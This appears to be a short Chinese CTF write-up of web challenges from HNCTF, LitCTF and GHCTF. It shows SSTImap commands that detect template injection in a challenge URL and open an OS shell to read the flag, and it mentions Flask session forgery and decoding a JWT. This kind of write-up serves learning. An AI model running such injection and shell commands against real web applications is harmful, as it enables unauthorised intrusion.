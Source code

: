 [警惕！Python 中少为人知的 10 个安全陷阱！ - 知乎](https://zhuanlan.zhihu.com/p/467142875)

### [HNCTF 2022 WEEK2]ez_SSTI

比较逆天的题，猜不到注入点是`name`就永远做不出来。

既然题目给了[SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.wiki/zh/pentesting-web/ssti-server-side-template-injection/index.html)，那就学习一些高级技法

```cmd
git clone https://github.com/vladko312/SSTImap.git

cd SSTImap

pip install -r requirements.txt
```

然后检索一下

```cmd
python sstimap.py -u "http://node5.anna.nssctf.cn:24352/?name=1"
```

得到结果可以注入，那就传一个伪shell上去

```cmd
python sstimap.py -u "http://node5.anna.nssctf.cn:24352/?name=1" --os-shell
```

正常`ls`发现当前目录就有flag，cat以下即可。

附一个[最全SSTI模板注入waf绕过总结（6700+字数！）_ssti注入绕过-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/134301620)

### [LitCTF 2023]Flag点击就送！

flask的session签名伪造，需要一定玄学（猜测关键词为LitCTF）

### [HNCTF 2022 WEEK3]ssssti

同week2

### [GHCTF 2024 新生赛]理想国

用API构造一个用户，获得token，解析一些，发现是JWT

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjEiLCJwYXNzd29yZCI6IjEifQ.uaahZh_a2WcFPzMcnOIrefvRpAeR1LG3AlU4rz8m
```

```json
{
  "header": {
    "alg": "HS256",
    "typ": "JWT"
  },
  "payload": {
    "password": "1",
    "username": "1"
  },
  "signature": "uaahZh_a2WcFPzMcnOIrefvRpAeR1LG3AlU4rz8m"
}
```
